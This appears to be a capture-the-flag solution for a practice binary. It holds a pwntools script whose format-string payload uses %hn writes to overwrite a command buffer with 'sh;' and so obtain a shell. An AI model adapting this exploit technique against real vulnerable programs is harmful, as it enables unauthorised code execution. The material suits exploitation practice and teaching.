

# solution

ghi đè command thành `sh;...`

```python
from pwn import *
context.log_level = 'debug'
p = process("./Formatstring-write-command")

# write `sh;\x00` to 0x804a040
payload = p32(0x804a042)   # offset 4
payload += p32(0x804a040)  # offset 5

# write `;` to 0x804a042
payload += "%{}c%4$hn".format(0x3b -8).encode() # 8 là số byte đã in ra trước đó ( 2 địa chỉ ở offset 4 và 5)
# write `sh` to 0x804a040
payload += "%{}c%5$hn".format(0x6873 - 0x3b).encode()
payload += "end".encode() # cho dễ nhìn hơn thôi


p.send(payload)
# p.recvuntil(b'end')
p.interactive()
```


